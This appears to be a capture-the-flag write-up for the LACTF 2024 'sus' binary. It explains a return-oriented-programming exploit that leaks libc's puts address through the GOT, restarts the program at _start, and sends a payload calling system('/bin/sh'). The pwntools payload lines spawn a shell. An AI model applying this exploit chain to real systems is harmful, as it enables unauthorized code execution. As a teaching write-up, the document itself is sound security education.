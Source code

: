 # sus

ROP to libc

## checksec

```bash
[*] '/mnt/d/CTFs/LACTF 2024/sus/sus_patched'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  b'.'
```

NX enabled, so we cannot write our own shell code in the buffer

While the executable has no PIE, system-wide ASLR will still be applied to libc. Thus, unless system-wide ASLR is disabled (or we can find the pieces for our ROP chain to get the flag entirely from within the binary), we will need to find the base address of libc. 

## Dumping the GOT with gef

The GOT can be dumped with gef with the command `got` as follows

```bash
gef➤  got

GOT protection: Partial RelRO | GOT functions: 3

[0x404000] puts@GLIBC_2.2.5  →  0x401036
[0x404008] setbuf@GLIBC_2.2.5  →  0x401046
[0x404010] gets@GLIBC_2.2.5  →  0x401056
```

which tells us that we can extract the address of the libc `puts` at runtime by passing the pointer 0x404000 as the first argument into `puts`. 

More specifically, the little endian representation of the libc `puts` address will always end with two null bytes, and that is why `puts` will print it out in its entirety. If we get unlucky and ASLR randomizes `puts` to an address that contains a null byte (highly unlikely), then we simply need to try again. 

## Leaking the Base Address of libc

By tinkering around with the executable with a DeBrujin sequence, we realize that part of our buffer (specifically 56 bytes from the start) is written into rdi. 

We are thus able to stick the address of the GOT for `puts` into rdi. 

To leak the libc address of `puts`, we simply need to call `puts` with the first argument (rdi) set as such. Therefore, we need to overwrite the return address with the address of `puts@plt`. 

The return address is 72 bytes from the start of the buffer (using again a DeBrujin sequence), so the payload is as follows

```python
b'A'*56 + p64(exe.got.puts) + b'A'*8 + p64(exe.symbols.puts)
```

We should note that `exe.symbols.puts` in pwntools is the same as `exe.symbols.plt.puts` since pwntools pulls PLT entries from the .plt.sec section. 

The libc base address can then be done by substracting the offset from base of `puts` in the libc of the pwn environment from the leaked address, as follows

```python
libc.address = u64(r.recvline().strip().ljust(8,b'\x00')) - libc.symbols.puts
```

Note that the base address of libc should always end in 000 because libc is aligned to a page, and the size of a page is 0x1000. 

## Reopening the Attack Vector

On one run of the executable, we are only allowed to send one payload. Thus, to reopen the attack vector, we need to call `_start()` so that we can inject another payload after leaking the address of libc. 

The first payload therefore is

```python
b'A'*56 + p64(exe.got.puts) + b'A'*8 + p64(exe.symbols.puts) + p64(exe.symbols._start)
```

## Final Payload

Our objective is to get the program to run `exec('/bin/sh')`, so all we need to do is to load the `/bin/sh` string into rdi (loading into rdi was already shown earlier), and call the `system` function in libc using the leaked libc base address. 

The final payload thus is 

```python
b'A'*56 + p64(next(libc.search(b'/bin/sh'))) + b'A'*8 + p64(ret) + p64(libc.symbols.system)
```

Note that the `ret` gadget is a simple one-instruction return gadget for the purpose of aligning `rsp` to the 16-byte boundary during the call to `system`. 
